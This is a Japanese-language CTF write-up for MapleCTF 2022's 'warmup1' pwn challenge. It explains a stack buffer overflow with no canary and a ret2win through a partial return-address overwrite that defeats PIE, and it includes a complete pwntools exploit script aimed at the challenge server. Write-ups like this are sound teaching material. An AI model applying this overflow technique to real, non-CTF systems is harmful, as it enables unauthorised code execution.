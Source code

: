 # MapleCTF 2022 `warmup1 [pwn]` writeup

## 問題
It's like warmup2, but easier.

`nc warmup1.ctf.maplebacon.org 1337`

実行ファイルが提供される。

## 解法
セキュリティ機構の確認から。

```
[*] '/home/caffeine/ctf/maplectf22/pwn/warmup1/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
canaryがない。
デコンパイルしてみるとvuln()関数の中にBOFがあったのでret2winします。
PIE有効なので、リターンアドレスをpartial overwriteすればOK。

## Exploit
read関数で標準入力を受け取っているので終端に改行文字は必要なし (というか改行付与するとpartial overwriteが成立しない)。
Pwntoolsを使うなら、`sendline(payload)`だとpayloadの終端に改行を付与して`send(payload)`だと改行を付与しないという違いがある。

```py
from pwn import *
import sys

elf = ELF("chal")

# io = process(elf.path)
io = remote("warmup1.ctf.maplebacon.org", 1337)

payload = b'A' * 0x18
payload += b'\x19'

io.send(payload)
io.interactive()
```

FLAG: 記録し損ねました…